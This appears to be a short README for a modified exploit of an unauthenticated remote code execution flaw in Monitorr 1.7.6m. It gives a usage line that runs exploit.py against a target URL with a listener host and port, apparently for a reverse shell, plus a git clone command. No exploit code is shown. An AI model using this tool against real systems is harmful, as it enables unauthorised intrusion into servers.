 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``python exploit.py https://domain.com LHOST PORT``

``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``
